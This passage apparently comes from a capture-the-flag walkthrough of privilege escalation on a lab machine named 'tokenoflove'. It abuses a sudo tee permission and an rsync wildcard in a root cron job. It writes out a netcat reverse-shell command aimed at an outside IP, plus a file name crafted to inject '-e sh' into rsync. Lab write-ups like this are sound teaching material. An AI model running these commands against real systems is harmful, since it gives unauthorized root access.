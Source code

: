 ```bash
cupido@tokenoflove:~/tokenoflove$ sudo -l
Matching Defaults entries for cupido on tokenoflove:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User cupido may run the following commands on tokenoflove:
    (eros) NOPASSWD: /usr/bin/tee
```

According to `gtfobins`, this allows us to write files as the user `eros`.  

![alt text](/assets/token-of-love/image-11.png)  

If we try to create an SSH key for the user `eros`, it won’t be useful since the SSH service is only accessible to the `root` user.  

```bash
cupido@tokenoflove:~/tokenoflove$ cat /etc/ssh/sshd_config
# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/local/bin:/usr/bin:/bin:/usr/games

# The strategy use...
...
...

AllowUsers root
```

On the other hand, if we check the processes running as `root` using `pspy64`, we transfer it to the server and execute it. After waiting a minute, we find the following process:  

![alt text](/assets/token-of-love/image-12.png)  

We notice that a process using `rsync` copies the entire home directory of the user `eros`. The way it is implemented makes it vulnerable to `rsync wildcards` ([https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)).  

Essentially, the key detail that interests us is this:

```
CMD: UID=0     PID=2888   | /bin/sh -c bash -c "cd /home/eros && rsync -i /root/.ssh/id_ed25519 -t *.txt tokenoflove:/root/copyhome-eros" > /dev/null 2>&1
CMD: UID=0     PID=2890   | rsync -i /root/.ssh/id_ed25519 -t nota2.txt nota3.txt nota.txt tokenoflove:/root/copyhome-eros 
```

We continue with the user `cupido`. Since we can use `sudo` to write files as the user `eros` and we have a possible `rsync wildcard` vulnerability, we combine both techniques to create the following files and gain direct access to `root`.  

```bash
cupido@tokenoflove:~$ echo "nc -c bash 192.168.1.116 443" | sudo -u eros /usr/bin/tee /home/eros/shell.txt
nc -c bash 192.168.1.116 443
cupido@tokenoflove:~$ echo "" | sudo -u eros /usr/bin/tee /home/eros/'-e sh shell.txt'
```
